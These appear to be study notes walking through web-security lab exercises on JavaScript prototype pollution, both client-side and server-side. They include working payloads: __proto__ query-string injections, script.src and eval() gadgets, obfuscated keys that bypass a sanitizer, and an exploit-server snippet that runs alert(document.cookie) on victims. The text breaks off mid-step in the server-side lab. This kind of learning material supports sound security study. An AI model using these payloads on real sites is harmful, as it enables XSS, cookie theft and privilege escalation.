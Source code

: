 # Prototype Pollution

Prototype pollution is a JavaScript security bug where an attacker injects or changes properties on Object.prototype (the base object every normal object inherits from). Because most objects inherit from that prototype, changing it can silently change app behavior and lead to serious issues — often remote code execution, data tampering, or DOM XSS in browsers.



## How it works (simple steps)
- JavaScript objects inherit from Object.prototype.
	- Example: {} → inherits properties from Object.prototype.
- If an attacker can control a property name like __proto__ or constructor.prototype through user input (query strings, JSON, form fields), they can change that prototype.
- After pollution, any object that checks or uses the polluted property will see the attacker-controlled value.

Example payloads:
- Query-string style: /?__proto__[isAdmin]=true
- JSON-like (if an app naively merges user JSON into config): ``` {"__proto__":{"role":"admin"}} ```
```js
// before
Object.prototype.marker // undefined

// attacker injects ?__proto__[marker]=owned
Object.prototype.marker // "owned"
({}).marker             // "owned"  <-- every object now has marker

```

## Lab: Client-side prototype pollution via browser APIs

- Goal: Exploit client-side prototype pollution to trigger a DOM XSS (script.src) sink.

Manual approach

- Find pollution source: Inject into query string 
	- 	/?__proto__[foo]=bar and verify Object.prototype.foo appears in the browser console.
- Identify gadget: Inspect site scripts (Sources). 
	-	In searchLoggerConfigurable.js a transport_url is dynamically appended as a <script> but was made non-writable/unconfigurable with Object.defineProperty() without defining a value property — this creates a gadget that reads value.
- Exploit: Pollute prototype so the gadget picks up a value property: 
	-	/?__proto__[value]=data:,alert(1); — the page renders <script src="data:,alert(1);"> and alert(1) runs, solving the lab.

DOM Invader (Burp) approach

	- Load lab in Burp browser, enable DOM Invader with prototype-pollution option.
	- Reload; DOM Invader finds prototype-pollution vectors in the query string.
	- Click Scan for gadgets → DOM Invader locates the value gadget and the script.src sink.
	- Click Exploit → DOM Invader auto-generates the POC and triggers alert(1).
Key takeaway: Prototype pollution via __proto__ can inject properties that interact with existing DOM-creating gadgets (e.g., script insertion) to achieve DOM XSS.


---


## Lab:  DOM XSS via client-side prototype pollution

Goal: Use prototype pollution to control a script src and trigger DOM XSS.

Manual steps (quick):

-	Find pollution vector: Inject into query string:
	-	/?__proto__[foo]=bar → confirm Object.prototype.foo === "bar" in DevTools Console.
-	Identify gadget: Inspect site scripts (Sources). 
	-	searchLogger.js will append a <script> if config.transport_url exists — a potential gadget if that property is read later.
-	Exploit: Pollute the prototype with transport_url:
	-	/?__proto__[transport_url]=data:,alert(1);
	Check Elements — a <script src="data:,alert(1);"> appears and alert(1) runs. Lab solved.

Automated (Burp DOM Invader):

	- Load lab in Burp browser → enable DOM Invader + prototype-pollution.
	- Reload: it finds pollution vectors in the query string.
	- Click Scan for gadgets → it finds the transport_url gadget and the script.src sink.
	- Click Exploit → DOM Invader generates a POC and triggers alert(1).

Key takeaway: Polluting __proto__ can inject properties (like transport_url) that existing client-side code uses to create DOM elements (e.g., script tags), enabling DOM XSS.

---

## Lab: DOM XSS via an alternative prototype pollution vector

Goal: Exploit prototype pollution to inject malicious JavaScript into an eval() sink.

Manual solution

- Find prototype pollution source:

	- Test /?__proto__[foo]=bar → no effect.

	- Try /?__proto__.foo=bar → success (Object.prototype.foo now equals "bar").

- Identify gadget:

	- In searchLoggerAlternative.js, an eval() sink uses manager.sequence, which isn’t defined — potential gadget.

- Craft exploit:

	- Inject payload:
		- /?__proto__.sequence=alert(1)
		- → error occurs, showing alert(1)1 (extra “1” breaks syntax).

	- Fix syntax by appending a minus:
		- /?__proto__.sequence=alert(1)-
		- → valid JS, triggers alert(1) and solves the lab.

DOM Invader solution

	- Enable prototype pollution option and reload page.
	- DOM Invader detects pollution vector in query string.
	- Scan for gadgets → finds eval() sink via sequence property.
	- Generated PoC fails initially due to the trailing 1 in payload.
	- Manually append - to the payload in URL → alert(1) executes successfully.



Key takeaway:
	- By polluting Object.prototype with a property used by an eval() sink, you can inject and execute JavaScript (DOM XSS). Sometimes, syntax adjustments (like adding -) are needed to fix malformed payloads.

---

## Lab: Client-side prototype pollution via flawed sanitization

Goal: Bypass the app’s key-sanitization to pollute Object.prototype, then control a script.src gadget to trigger DOM XSS.

How the bypass works :

- Simple __proto__ or constructor.prototype attempts are blocked by the site’s sanitizeKey() blocklist, so /?__proto__.foo=bar and similar fail.

- The filter isn’t recursive and can be bypassed by obfuscating the blocked key so the sanitizer misses it but the parser still interprets it. Example bypass forms used:

	- /?__pro__proto__to__[foo]=bar
	- /?__pro__proto__to__.foo=bar
	- /?constconstructorructor[protoprototypetype][foo]=bar
	- /?constconstructorructor.protoprototypetype.foo=bar

- After injecting one of those, Object.prototype.foo === "bar" — prototype pollution achieved.

Finding the gadget:

- Inspect site JS. searchLogger.js dynamically appends a <script> using config.transport_url if present.

- config.transport_url is not normally defined — a perfect gadget if you can supply it through the polluted prototype.

Exploit (POC):

- Pollute the prototype with transport_url:
	- /?__pro__proto__to__[transport_url]=data:,alert(1);

- The page renders <script src="data:,alert(1);"> and alert(1) executes → lab solved.

Key takeaway: Even when direct __proto__ keys are blocked, non-recursive sanitizers can be bypassed by tricking the parser with obfuscated key names. If client-side code later reads a property (e.g., transport_url) to build DOM (script.src), that polluted property can be used to trigger DOM XSS.


---

## Lab: Client-side prototype pollution in third-party libraries

Goal: Use prototype pollution delivered in the URL fragment (#...) to control a setTimeout() sink (hitCallback) and execute code (steal cookie).


- Load the lab in Burp’s built-in browser.
- Enable DOM Invader and turn on the prototype pollution option.
- Open DevTools → DOM Invader tab and reload the page. DOM Invader finds two pollution vectors in the URL hash (fragment).
- Click Scan for gadgets → wait for the gadget scan. It finds a hitCallback gadget that reaches a setTimeout() sink.
- Click Exploit → DOM Invader auto-generates a POC and runs alert(1) (proof the sink is exploitable).
- Disable DOM Invader.
- On the lab’s exploit server, create an HTML payload that navigates victims to a malicious URL containing the polluted hash. Example body:

```html
<script>
  location="https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>

```
- Test the exploit yourself (confirm navigation and that alert(document.cookie) runs).
- Deliver the exploit to a victim to solve the lab.

Key takeaway: Prototype pollution delivered via the URL fragment can be discovered and weaponized with DOM Invader. If a gadget (here hitCallback) feeds attacker-controlled properties into DOM timers (setTimeout), you can execute arbitrary JS (e.g., alert(document.cookie)) by getting the victim to visit a crafted URL.

---

## Lab: Privilege escalation via server-side prototype pollution

Goal: Pollute server-side object prototype via a JSON request to become an admin and delete the carlos user


- Inspect address update: Log in, submit the account address form. In Burp HTTP history find the POST /my-account/change-address request — the form data is sent as JSON and the server responds with a JSON user object.

- Prototype pollution test: Send the request to Repeater and add:
	```json
	"__proto__": { "foo": "bar" }

	```
	- Send it — the response user object now shows foo: "bar" (but no __proto__), indicating prototype pollution (inherited property).
	
- Find gadget: The response has isAdmin: false — this property is read by the app to show admin links.

- Exploit: Modify JSON to: